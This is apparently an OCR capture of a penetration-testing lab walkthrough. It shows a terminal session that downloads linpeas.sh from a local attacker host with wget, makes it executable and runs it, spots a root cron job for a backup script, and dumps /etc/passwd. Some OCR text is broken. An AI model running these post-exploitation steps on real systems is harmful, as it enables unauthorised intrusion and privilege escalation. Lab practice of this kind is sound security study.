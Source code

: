$ wget

--2022-08-02 04:16:12--

Connecting to 192.168.1.6:80... connected.

HTTP request sent, awaiting response... 200 OK

Length: 807167 (788K) [text/x-sh]

Saving to: 'linpeas.sh'

$ chmod +x linpeas.sh

$ ./linpeas.sh

some interested

* * * * * /home/grimmie/backup.sh

$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash

daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

bin:x:2:2:bin:/bin:/usr/sbin/nologin

sys:x:3:3:sys:/dev:/usr/sbin/nologin

sync:x:4:65534:sync:/bin:/bin/sync

games:x:5:60:games:/usr/games:/usr/sbin/nologin

man:x:6:12:man:/var/cache/man:/usr/sbin/nologin

lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin

mail:x:8:8:mail:/var/mail:/usr/sbin/nologin

uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin

proxy:x:13:13:proxy:/bin:/usr/sbin/nologin

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

backup:x:34:34:backup:/var/backups:/usr/sbin/nologin

list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin

irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin

gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin

nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin

_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin

systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin

systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin

messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
